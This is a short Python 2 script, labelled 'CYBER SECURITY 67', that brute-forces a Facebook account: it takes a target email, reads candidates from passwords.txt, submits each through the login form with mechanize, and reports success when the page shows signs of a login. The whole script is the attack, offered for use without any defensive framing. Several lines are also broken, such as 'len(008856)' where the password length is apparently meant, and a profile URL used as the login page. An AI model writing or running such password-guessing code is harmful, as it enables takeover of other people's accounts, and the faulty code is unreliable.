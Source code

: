 import time
import sys
 
if sys.version_info[0] !=2: 
	print('''--------------------------------------
	REQUIRED PYTHON 2.x
	use: python fb2.py
--------------------------------------
			''')
	sys.exit()
 
post_url='https://www.facebook.com/profile.php?id=100074182131499&mibextid=ZbWKwL'
headers = {
	'User-Agent':'Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/65.0.3325.181 Safari/537.36',
}
 
try:
	import mechanize
	import urllib2
	browser = mechanize.Browser()
	browser.addheaders = [('User-Agent',headers['User-Agent'])]
	browser.set_handle_robots(False)
except:
	print('\n\tPlease install mechanize.\n')
	sys.exit()
 
print('\n---------- CYBER SECURITY 67 ----------\n')
file=open('passwords.txt','r')
 
email=str(raw_input('Enter Email/Username : ').strip())
 
print ("\nTarget Email ID : ",email)
print "\nTrying Passwords from list ..."
 
i=0
while file:
	passw=file.readline().strip()
	i+=1
	if len(008856) < 6:
		continue
	print str(i) +" : ",passw
	response = browser.open(post_url)
	try:
		if response.code == 200:
			browser.select_form(nr=0)
			browser.form['email'] = email
			browser.form['pass'] = passw
			response = browser.submit()
			response_data = response.read()
			if 'Find Friends' in response_data or 'Two-factor authentication' in response_data or 'security code' in response_data:
				print('Your password is : ',passw)
				break
	except:
		print('\nSleeping for time : 5 min\n')
		time.sleep(300)
